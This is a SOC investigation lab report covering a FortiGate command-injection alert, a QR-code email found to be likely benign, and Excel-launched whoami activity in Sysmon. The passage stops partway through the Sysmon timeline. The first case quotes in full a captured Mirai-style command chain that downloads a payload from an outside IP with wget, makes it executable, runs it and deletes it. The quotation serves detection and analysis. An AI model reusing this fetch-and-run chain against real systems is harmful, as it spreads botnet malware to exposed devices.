# Quishing - SOC Alert Investigation Lab


> Project by Samuel Kim. All rights reserved. See [LICENSE](LICENSE).

## Overview

This project documents a SOC alert investigation lab covering three security cases: a FortiGate command-injection alert, a QR-code phishing email, and suspicious endpoint discovery activity in Microsoft Sentinel/Sysmon.

The investigation focuses on what the evidence proves, what remains unconfirmed, which follow-up checks are required, and how the activity maps to MITRE ATT&CK and the Cyber Kill Chain. Each case is written as an analyst report with screenshots, technical context, and a final case assessment.

## Investigation Goals

- Review each alert and identify the strongest technical evidence.
- Separate confirmed findings from assumptions or incomplete proof.
- Map behavior to MITRE ATT&CK and Cyber Kill Chain stages.
- Recommend practical validation and response actions for each case.

## Investigation Summary

| Case | Initial signal | Final assessment |
|------|----------------|------------------|
| FortiGate command injection | HTTP request with injected shell commands | True positive malicious exploitation attempt against `web.seesec.co.il`; compromise is not proven without server-side logs. |
| Quishing email | QR code inside an email message | Likely false positive for confirmed phishing: the QR flow uses Me-QR and reaches legitimate Facebook/Meta infrastructure, with sender-header validation still required. |
| Sentinel/Sysmon discovery | `whoami` activity in Sysmon logs | True-positive suspicious endpoint activity involving Sysmon Event ID 1, Excel-launched `whoami`, `Gift.xlsm`, file-transfer commands, domain-controller reachability checks, and cleanup-related artifacts. |

## Lab Environment

| Component | Role |
|-----------|------|
| FortiGate IPS | Network alert source for the command-injection event. |
| Microsoft Sentinel | SIEM used to search and correlate endpoint telemetry. |
| Sysmon | Windows telemetry source for process creation and command-line data. |
| VirusTotal / AbuseIPDB | Public reputation sources used to enrich indicators. |
| QR and email inspection tools | Used to inspect the suspicious email, sender address, and QR destination. |
| Any.Run / sandbox / PCAP review | Used to validate the QR redirect path and the network domains reached after opening the QR URL. |

---------

## Case 1 - FortiGate Command Injection

The first case starts with a FortiGate IPS event. An external source, `195.1.144.109`, sends an HTTP request to the public web service `web.seesec.co.il`. The important part is not only the connection itself, but the content of the URL: it contains shell-style syntax and a full command chain.

This looks like an automated exploitation attempt. The request tries to abuse a LuCI-style path, move into `/tmp`, remove an older file, download a file named `shk`, give it executable permissions, run it with a `tplink` argument, and delete it afterward to reduce traces.

From an analyst perspective, this case has three separate layers. The first layer is the incoming request from the internet-facing source. The second layer is the command string embedded in the URL. The third layer is the payload infrastructure that the target would contact if the injected command executed successfully. Keeping those layers separate prevents the investigation from mixing up the scanner, the protected web service, and the download host.

> Command injection means attacker-controlled input reaches an operating-system shell. In this event, the network log proves that the request was sent to the web service. It does not prove by itself that the target server executed the command.

**Evidence focus:**

- FortiGate recorded the external source, destination service, URL, action, and HTTP user agent.
- The request URL contains a clear shell command sequence.
- Public reputation sources flag the payload host and source context as suspicious.
- Mirai botnet intelligence gives context for the payload infrastructure and IoT/router-style targeting.

### Identify the Source, Destination, and Traffic Direction

The first step is to identify who contacted what. The log shows the source address and hostname, destination address, and destination hostname. This establishes the basic direction of the event before analyzing the payload.

Here, `195.1.144.109` is the external system initiating the request, while `web.seesec.co.il` is the protected destination service. That direction matters because the alert is not about a user browsing outward from the organization; it is about an inbound request attempting to reach a public-facing service. In SOC triage, inbound traffic with a web exploit pattern is treated very differently from normal user web browsing.



<p><sub><strong>Screenshot 001 - FortiGate source and destination fields:</strong> The log row identifies `195.1.144.109` / `no4.nordicvm.no` as the source and `web.seesec.co.il` as the destination service.</sub></p>

The screenshot gives the investigation its boundary: an outside host contacted a specific web service. It does not yet prove exploit success, but it tells the analyst where to look next: the URL payload, FortiGate action, server logs for `web.seesec.co.il`, and reputation for both the source and payload infrastructure.

### Break Down the Injected Command Chain

The strongest evidence is the request URL. It contains a command sequence that would only make sense if the attacker expected the application or device to pass input into a shell.

```text
cd /tmp
rm -rf shk
wget http://103.14.226.142/shk
chmod 777 shk
./shk tplink
rm -rf shk
```

The sequence attempts to remove an old payload, download a new payload from `103.14.226.142`, make it executable, run it, and delete the local file afterward. The `tplink` argument is important because it suggests the payload may be designed for router or IoT-style targets.

The command chain is suspicious because every part has a clear attacker purpose:

| Command part | Analyst meaning |
|--------------|-----------------|
| `cd /tmp` | Uses a writable temporary directory commonly abused during exploitation. |
| `rm -rf shk` | Removes any previous copy of the payload name before downloading a fresh one. |
| `wget http://103.14.226.142/shk` | Pulls an external payload from attacker-controlled or compromised infrastructure. |
| `chmod 777 shk` | Makes the downloaded file executable by any user, which is unnecessary for a normal web request. |
| `./shk tplink` | Attempts to execute the downloaded file with a TP-Link/router-related argument. |
| `rm -rf shk` | Deletes the local payload afterward, reducing simple file-system evidence. |

This is why the URL is stronger evidence than the connection alone. A single HTTP request to a website can be benign, but a request carrying download, permission-change, execution, and cleanup commands is exploitation behavior.



<p><sub><strong>Screenshot 002 - Injected LuCI request and payload command:</strong> The request URL contains shell metacharacters, a `wget` payload download, executable permission changes, execution, and cleanup.</sub></p>

> LuCI is commonly associated with OpenWrt router administration. Seeing a LuCI-style path together with a `tplink` argument supports the possibility that the attacker is using a botnet-style exploit chain aimed at network devices or web-exposed management interfaces.

### Interpret the FortiGate Action

The FortiGate event shows `deviceAction=Accept`. In this log, the traffic was recorded as accepted rather than explicitly blocked, so the evidence confirms detection and logging of the malicious request but does not confirm prevention at the firewall layer.



<p><sub><strong>Screenshot 003 - FortiGate IPS action and HTTP service fields:</strong> The screenshot shows `Accept`, FortiGate IPS, destination port 80/HTTP, transfer size, and `Go-http-client/1.1`.</sub></p>

`Go-http-client/1.1` often appears in automated tooling written in Go. It is not malicious by itself, but combined with the command-injection payload, it supports the idea of scripted scanning or exploitation rather than normal user browsing.

The `Accept` action is an important limitation. It keeps the verdict honest: the request is malicious, but the firewall log alone does not prove that FortiGate blocked it. The correct next step is to correlate this event with web server access logs, application logs, endpoint telemetry, and outbound connections from the destination server. If the destination later reached `103.14.226.142`, that would materially increase concern.

### Enrich the Source and Payload Indicators

This enrichment has two separate indicators: the source IP that sent the request and the payload host used inside the injected command. Separating them keeps the analysis clear because each address plays a different role in the event.

#### Analyze source IP `195.1.144.109`

The source IP `195.1.144.109` is the host that initiated the HTTP request against `web.seesec.co.il`. AbuseIPDB context and the [VirusTotal report for `195.1.144.109`](https://www.virustotal.com/gui/ip-address/195.1.144.109) support treating this source as suspicious, especially when combined with the injected LuCI request and automated `Go-http-client/1.1` user agent.

VirusTotal shows a lighter but still relevant reputation signal for this address: `2/91` security vendors flag it, with detections categorized as phishing or suspicious. The page also identifies the address under AS2116 / Globalconnect AS in Norway, which helps document the network owner context for the source side of the request.

The lower detection ratio does not make the source safe. Public reputation is only one input. The behavior observed locally is much stronger: the source sent a web request containing a command-injection chain. Even if only a small number of vendors flag the IP, the URL payload and the community reports make it reasonable to treat the source as hostile for this incident.



<p><sub><strong>Screenshot 004 - AbuseIPDB source IP profile:</strong> AbuseIPDB context supports the source IP `195.1.144.109` being suspicious.</sub></p>

Additional community reports show the same source IP associated with web exploit activity, TP-Link targeting, port scanning, hacking, SQL injection, and web application attacks. One reported request is very similar to the alert pattern in this case: a LuCI path, `/tmp`, `wget`, `chmod 777`, `./shk tplink`, and cleanup commands.



<p><sub><strong>Screenshot 005 - Community reports for source IP:</strong> Public reports show previous malicious activity associated with `195.1.144.109`, including web exploit activity and TP-Link-focused probing.</sub></p>

> Reputation evidence does not prove that `web.seesec.co.il` was compromised. It does show that the source IP has a pattern of behavior consistent with automated exploitation and web-application attack traffic.

#### Analyze payload host `103.14.226.142`

The payload host `103.14.226.142` appears inside the injected command as the server used by `wget` to retrieve `shk`. This address is important because it represents the infrastructure the target would contact if the command executed successfully. The [VirusTotal report for `103.14.226.142`](https://www.virustotal.com/gui/ip-address/103.14.226.142) provides additional reputation context for this payload infrastructure.

VirusTotal shows a stronger signal for the payload host: `10/91` security vendors flag the IP, with labels such as malware, malicious, and phishing. The address is listed under AS149136 / AALO.VN DIGITAL TECHNOLOGY JOINT STOCK COMPANY in Vietnam, separating it clearly from the source IP and supporting the conclusion that this is the payload-delivery side of the activity.

This IP carries more weight than a random external domain because it is not only related by reputation; it is embedded directly inside the exploit command. If the command executed, the target would attempt to download from this address. That makes `103.14.226.142` a payload-delivery indicator, not just a background enrichment artifact.



<p><sub><strong>Screenshot 006 - VirusTotal result for payload host:</strong> VirusTotal flags `103.14.226.142`, the host used by the injected `wget` command.</sub></p>

VirusTotal and threat-intelligence context increase confidence that this payload host is malicious. The address also appears in a Mirai Botnet IOC report, which fits the router/IoT targeting suggested by the LuCI path and `tplink` argument.

### Connect the Payload Host to Mirai Botnet Context

Mirai-style malware commonly targets exposed network devices, routers, and IoT systems, then uses compromised devices for distributed attacks or further scanning. In this event, the payload host, the LuCI-style endpoint, and the `tplink` argument all point toward an automated botnet-style exploitation attempt.


<p><sub><strong>Screenshot 007 - Mirai Botnet IOC context:</strong> The IOC report lists `103.14.226.142`, the same IP used in the injected `wget` command, under a Mirai Botnet indicator set.</sub></p>

Mirai is known for abusing weak or vulnerable network-connected devices and turning them into botnet nodes. The report description mentions IOC types such as IPv4 addresses, ports, domains, and hashes, and describes capabilities such as DDoS, device compromise, and data theft.



<p><sub><strong>Screenshot 008 - Mirai threat description:</strong> The report describes Mirai as a botnet family targeting IoT devices and routers using multiple indicators of compromise.</sub></p>

> In this alert, the likely scenario is an automated Mirai-style exploitation attempt. The attacker tries to make `web.seesec.co.il` retrieve and execute a payload from infrastructure associated with Mirai indicators. The available evidence supports an attempted exploitation chain, not confirmed successful execution.

### Map the Behavior to MITRE ATT&CK

The visible behavior maps to public-facing exploitation, shell command execution, and tool transfer. The request contains Unix-style commands, and the payload is retrieved with `wget`.



<p><sub><strong>Screenshot 009 - MITRE command interpreter reference:</strong> The MITRE reference supports mapping the command-execution behavior to Command and Scripting Interpreter techniques.</sub></p>

The MITRE mapping is useful because it describes behavior, not product names. The attacker attempts to exploit a public service, execute shell commands, and transfer a payload onto the target. Those behaviors remain relevant whether the protected service is a router interface, web application, or exposed management path.

### Define Server-Side Validation

The network alert is enough to classify the request as malicious, but it is not enough to prove that `web.seesec.co.il` was compromised. The next investigation step is to move from network evidence into server-side evidence.

The key validation should include web server access logs, error logs, application logs, endpoint telemetry, downloaded or modified files, and outbound connections from the server around the alert time. If the server contains traces of `wget`, `chmod`, `shk`, `/tmp`, or communication with `103.14.226.142`, then the investigation can move from attempted exploitation to likely or confirmed compromise.

> A firewall log shows that the request reached the security stack. Web server logs and endpoint telemetry show whether the server actually processed the request and executed the command.

### Case 1 Report

| Field | Assessment |
|-------|------------|
| Verdict | True positive malicious exploitation attempt. |
| Attack status | Confirmed attempt against `web.seesec.co.il`; successful compromise is not proven without server-side evidence. |
| Key evidence | LuCI-style request, shell command chain, `wget` payload download, `chmod`, execution syntax, cleanup command, suspicious source reputation, payload-host reputation, and Mirai-related IOC context. |
| Kill Chain and MITRE | Exploitation and payload transfer. Main mappings: [T1190 - Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/), [T1059 - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/), [T1059.004 - Unix Shell](https://attack.mitre.org/techniques/T1059/004/), and [T1105 - Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/). |
| Evidence limits | FortiGate records `Accept`; no server-side execution log, outbound connection log, or downloaded `shk` artifact is available. |
| Next checks | Review web access/error/application logs, search for `shk`, `/tmp`, `wget`, `chmod`, outbound traffic to `103.14.226.142`, and similar LuCI/Mirai requests. |
| Recommendation | Validate the server, tune IPS prevention if required, block confirmed malicious indicators, and patch or restrict exposed management/application paths. |

---------

## Case 2 - Quishing Email

The second case starts as a QR-code phishing investigation. The email asks the recipient to scan a QR code and join a Facebook group. QR codes deserve caution in SOC triage because the real destination is hidden until the code is decoded or opened in a controlled environment.

After Any.Run/sandbox and PCAP validation, the evidence supports a likely false positive for confirmed phishing. The QR code uses an ad-supported Me-QR redirect page, but the observed path leads to the legitimate Facebook domain instead of a fake credential-harvesting page. The email still has weak signals that justify investigation: the sender display name is written incorrectly, the QR code hides the destination, and full email headers are not available.

Quishing means QR-code phishing. The technique is attractive to attackers because a QR image can push the user from a protected email client to a mobile browser, where link inspection, corporate proxy controls, and user awareness can be weaker. In this case, the suspicious delivery method creates the alert, but the final verdict depends on the decoded URL, redirect behavior, network evidence, and sender validation.

> The alert remains valuable as a triage signal. The suspicious delivery method justified investigation, while the validated evidence does not support a malicious phishing verdict.

**Evidence focus:**

- The email contains a QR code and a social-engineering request.
- The sender display name is written like a username instead of a normal full name, which is a weak identity-quality signal.
- The sender domain `see-security.com` is known and appears related to the education/training context.
- The decoded QR URL uses `qr.me-qr.com`, an intermediate QR redirect service.
- Any.Run/sandbox and PCAP evidence show Me-QR ad/redirect behavior followed by traffic to legitimate Facebook and Meta domains.
- No fake Facebook domain, credential-harvesting page, malware download, or suspicious payload execution is confirmed.

### Review the Email Lure

The email uses a simple request: scan the QR code and join a Facebook group. This is a common shape for both legitimate invitations and QR phishing attempts, so the QR destination needs to be decoded before a final decision is made.



<p><sub><strong>Screenshot 010 - Suspicious email with QR code:</strong> The email contains sender and recipient details plus a QR code that asks the user to follow an external path.</sub></p>

The screenshot shows a social-engineering style request rather than a technical exploit. The user is being asked to take an action outside the email body: scan the QR code and continue in a browser. That behavior is why the case cannot be closed from the email screenshot alone. The QR image must be decoded and followed in a controlled environment before deciding whether it leads to a real phishing page, a benign group invite, or an intermediate redirect service.

The lure is suspicious enough for triage because the destination is hidden from normal visual inspection. At the same time, the screenshot does not show a fake login page, attachment, malicious file, or credential prompt. It only shows the initial delivery object.

### Validate the Sender Identity

The sender appears as `avi.waisman@see-security.com`, but the display name is written as `avi.waisman` rather than a clean personal name. That is not enough to classify the email as malicious, but it is worth documenting because phishing emails often contain small identity-quality issues.

The sender and recipient domains are also similar: `see-security.com` and `see-secure.com`. Similar-looking domains can be used in impersonation attempts, but in this lab the `see-security.com` domain is known and appears to be associated with the educational organization. That lowers the risk rating compared to an unknown lookalike domain.



<p><sub><strong>Screenshot 011 - Sender mailbox validation result:</strong> The mailbox check marks `avi.waisman@see-security.com` as undeliverable, which supports additional caution but does not prove spoofing by itself.</sub></p>

The mailbox validation result is a weak signal, not a final verdict. Mailbox-checker tools can fail because of catch-all domains, anti-enumeration controls, temporary mail-server behavior, or restricted verification. Still, the result should be kept in the case because it supports a reasonable question: did this message really come from the claimed sender, or was the visible identity copied into the email?

> Full email headers are not available, so SPF, DKIM, DMARC, and Received-path validation cannot be completed. A man-in-the-middle scenario is not supported by the current evidence; the stronger explanation is a legitimate QR redirect flow with weak sender-formatting signals.

### Decode and Inspect the QR Destination

The QR code resolves to `https://qr.me-qr.com/shP847fW`. This is an intermediate QR service rather than a direct Facebook link, which explains why the first triage decision was suspicious. Redirect services can hide the final target and are frequently abused in phishing, but they are also used for legitimate QR campaigns.



<p><sub><strong>Screenshot 012 - Security vendor detections for QR URL:</strong> The decoded QR URL is checked against security vendors and receives malicious or suspicious detections.</sub></p>

The reputation result is useful, but it should not be treated as the final answer. QR redirect services can receive negative reputation because they are abused by other users or because they show ad-gated redirect behavior. The important analyst question is not only "is the QR provider suspicious?" but "where did this specific QR link send the user during controlled testing?"

The decoded URL also explains why the alert is plausible. A user expecting Facebook does not initially go straight to `facebook.com`; the path starts with a third-party QR service. That adds uncertainty because redirect services can change destinations after delivery, hide the final URL from the email body, and make security tooling evaluate the intermediate service instead of the final page.

### Validate QR Behavior in Sandbox and PCAP Evidence

The Any.Run/sandbox browser evidence shows the Me-QR intermediate page. The page does not immediately display a credential prompt; it shows a `Watch to continue` flow and a `skip` option, which is consistent with an ad-supported redirect service.



<p><sub><strong>Screenshot 013 - Me-QR ad gate after QR scan:</strong> The QR link opens an intermediate Me-QR page that requires watching or skipping an ad before continuing.</sub></p>

This page may look suspicious because it interrupts the user with an ad-gated redirect, but it is not the same as credential phishing. It does not show a fake Microsoft, Facebook, bank, or corporate login page. That distinction matters: some suspicious-looking web flows are advertising or tracking flows rather than credential theft.

The final observed destination is `https://www.facebook.com/?locale=he_IL`, which is a legitimate Facebook domain. This supports a benign explanation: the QR code likely redirects through Me-QR to Facebook rather than to a fake login page.



<p><sub><strong>Screenshot 014 - Facebook final destination:</strong> The redirect flow reaches the legitimate `www.facebook.com` login page using the Hebrew locale.</sub></p>

The final page is still a login page, so the analyst should verify the domain carefully. In the screenshot, the browser reaches `www.facebook.com`, which is the real Facebook domain. A fake page would normally use a lookalike domain, unusual subdomain, newly registered host, or non-Meta infrastructure. The available browser evidence supports a legitimate Facebook destination.

The PCAP supports the same conclusion. The capture contains DNS and TLS indicators for `qr.me-qr.com`, `cdn.me-qr.com`, Google ad/measurement domains, and then Facebook/Meta infrastructure such as `www.facebook.com`, `static.xx.fbcdn.net`, `scontent.xx.fbcdn.net`, and `accounts.meta.com`. No separate counterfeit Facebook domain or malware download is visible in the network evidence. A compact domain summary is documented in [quishing-network-evidence.md](docs/quishing-network-evidence.md).

| Observed domain group | Meaning in the investigation |
|-----------------------|------------------------------|
| `qr.me-qr.com` / `cdn.me-qr.com` | Intermediate QR redirect and content-delivery infrastructure. |
| Google ad and measurement domains | Consistent with the ad-gated Me-QR page shown in the sandbox. |
| `www.facebook.com`, `fbcdn.net`, `accounts.meta.com` | Legitimate Facebook/Meta infrastructure reached after the redirect flow. |

This domain sequence supports a false-positive disposition for confirmed phishing. The QR delivery method was suspicious, but the observed redirect path did not lead to a counterfeit login page or payload delivery.

> The finding is suspicious QR delivery, not confirmed credential theft. The available evidence shows an ad-gated QR redirect flow that resolves to a legitimate Facebook destination.

### Define Response and Closure Actions

The response should focus on validation and documentation, not immediate blocking of the known educational domain. The email should be preserved, full headers should be collected, and the sender or organization should confirm whether the QR campaign is legitimate.

The QR provider should be monitored as a redirect service rather than treated as outright malicious from this evidence alone. If headers fail authentication, the sender denies the campaign, or the QR destination later changes to credential harvesting, the case should be reopened as phishing.

### Case 2 Report

| Field | Assessment |
|-------|------------|
| Verdict | False positive for confirmed phishing; suspicious QR delivery still justified triage. |
| Attack status | No confirmed attack. The controlled flow shows an ad-supported Me-QR redirect that reaches legitimate Facebook/Meta infrastructure. |
| Key evidence | QR delivery, weak sender display-name formatting, `qr.me-qr.com` redirect, Me-QR ad gate, final `www.facebook.com` destination, and PCAP domains matching QR, ad, Facebook, and Meta infrastructure. |
| Kill Chain and MITRE | Initially triaged as Delivery. [T1566.002 - Spearphishing Link](https://attack.mitre.org/techniques/T1566/002/) and [T1204 - User Execution](https://attack.mitre.org/techniques/T1204/) are considered but not confirmed as malicious techniques. |
| Evidence limits | Full email headers are unavailable; SPF, DKIM, DMARC, Received path, QR owner, and sender intent still require validation. |
| Next checks | Collect headers, confirm the campaign with the sender or organization, review mail-gateway click telemetry, check other recipients, and monitor the QR URL for destination changes. |
| Recommendation | Close as false positive if sender confirmation and authentication are clean; keep QR redirect monitoring separate from confirmed credential-harvesting alerts. |

---------

## Case 3 - Sentinel and Sysmon Discovery

The third case investigates a Microsoft Sentinel incident around discovery activity on the Windows endpoint `WIN10B`. The first visible signal is a query for `whoami` in Sysmon telemetry, but the case becomes stronger when the log fields are correlated with parent processes, process IDs, command lines, user context, and later download/cleanup activity.

`whoami` is a legitimate Windows command that prints the current user context. In a SOC investigation it becomes suspicious when it appears after document execution, scripting, downloads, or lateral-movement preparation because attackers often check which user they are running as before deciding what to do next.

> Sysmon records detailed Windows endpoint events such as process creation and command lines. Sentinel makes that telemetry searchable with KQL, allowing the analyst to move from one suspicious command to the surrounding process timeline.

**Evidence focus:**

- Sentinel searches Sysmon Event ID 1 process-creation telemetry.
- Four `whoami.exe` executions are identified on `5/7/2024` as displayed in Sentinel.
- The first event is launched from `cmd.exe`, while the later events are launched through Microsoft Excel.
- Excel opens the macro-enabled workbook `C:\Users\Jim.WIN10B\Desktop\Gift.xlsm`.
- Process IDs, parent process IDs, parent images, and timestamps show repeated execution rather than one isolated command.
- The wider timeline includes elevated installer context, OneDrive setup deletion, cleanup utilities, domain-controller ping checks, MalwareBazaar-style download activity, and repeated `Gift.xlsm` downloads.

### Search Sysmon Process Telemetry for `whoami`

The investigation starts with a KQL query that searches Sysmon events where the command line contains `whoami`.

```kql
Sysmon
| where CommandLine contains "whoami"
```



<p><sub><strong>Screenshot 015 - Sentinel query for whoami activity:</strong> The Sentinel result shows multiple Sysmon process creation events where the command line contains `whoami`.</sub></p>

The result set is important because every returned event has `EventID=1`, which is Sysmon's process-creation event. That means the records are not just search hits in a text log; they represent actual process executions with command-line and parent-process context.

> A command name alone is not enough for a verdict. In Sysmon, the value comes from comparing `Image`, `CommandLine`, `ProcessId`, `ParentImage`, `ParentCommandLine`, `ParentProcessId`, user, and time.

### Reconstruct the Sysmon Event Timeline

The four `whoami.exe` records are reconstructed below as separate Sysmon Event ID 1 process-creation events. Splitting them into individual log entries makes the timeline easier to read and shows exactly how the behavior changes from a normal command prompt parent to suspicious Excel-driven execution.

#### Event 01 - Baseline Command Prompt Execution

```text
TimeGenerated UTC : 5/7/2024 7:50:04.820 AM
Source            : Microsoft-Windows-Sysmon
EventID           : 1 - Process Create
User              : WIN10B\Jim
Image             : C:\Windows\System32\whoami.exe
CommandLine       : whoami
ProcessId         : 6972
ParentImage       : C:\Windows\System32\cmd.exe
ParentCommandLine : "C:\Windows\system32\cmd.exe"
ParentProcessId   : 4836
```

This first event is treated as the baseline. `whoami.exe` was launched from `cmd.exe`, which is a normal parent process for manual command-line work. By itself, this event does not prove malicious activity; it gives the investigation a comparison point for the later Excel-based executions.

> The parent process is the key detail here. `cmd.exe` is expected for a user manually typing `whoami`, while Office applications launching the same command require much closer review.

#### Event 02 - Excel Launches Identity Discovery

```text
TimeGenerated UTC : 5/7/2024 12:14:39.812 PM
Source            : Microsoft-Windows-Sysmon
EventID           : 1 - Process Create
User              : WIN10B\Jim
Image             : C:\Windows\System32\whoami.exe
CommandLine       : whoami
ProcessId         : 3344
ParentImage       : C:\Program Files\Microsoft Office\Root\Office16\EXCEL.EXE
ParentCommandLine : "C:\Program Files\Microsoft Office\Root\Office16\EXCEL.EXE" "C:\Users\Jim.WIN10B\Desktop\Gift.xlsm"
ParentProcessId   : 9164
```

The second event changes the investigation. `whoami.exe` is now launched by `EXCEL.EXE`, and the parent command line shows the workbook `C:\Users\Jim.WIN10B\Desktop\Gift.xlsm`. A macro-enabled workbook spawning identity-discovery commands is suspicious because Office documents are commonly used as an initial execution method.

This event suggests that `Gift.xlsm` may contain macro logic, embedded automation, or a script chain that checks the current user context after execution starts.

#### Event 03 - Repeated Discovery from the Same Excel Process

```text
TimeGenerated UTC : 5/7/2024 12:14:55.257 PM
Source            : Microsoft-Windows-Sysmon
EventID           : 1 - Process Create
User              : WIN10B\Jim
Image             : C:\Windows\System32\whoami.exe
CommandLine       : whoami
ProcessId         : 8388
ParentImage       : C:\Program Files\Microsoft Office\Root\Office16\EXCEL.EXE
ParentCommandLine : "C:\Program Files\Microsoft Office\Root\Office16\EXCEL.EXE" "C:\Users\Jim.WIN10B\Desktop\Gift.xlsm"
ParentProcessId   : 9164
```

